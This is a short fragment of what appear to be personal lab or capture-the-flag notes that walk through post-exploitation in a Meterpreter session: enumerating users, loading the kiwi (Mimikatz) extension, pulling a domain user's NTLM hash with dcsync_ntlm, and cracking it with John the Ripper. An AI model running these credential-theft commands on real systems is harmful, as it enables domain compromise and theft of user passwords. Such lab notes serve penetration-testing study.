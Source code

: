 $ net user 
- We want to see a list of users 

$ exit 
- We want to go back to meterpreter 

$ load kiwi
- Using program to do an credential attack
- 
![[Hashed passwords.jpg]]
$ dcsync_ntlm cdanvers

$ john hash.txt --format=NT -show
![[Cdanvers.jpg]]
____
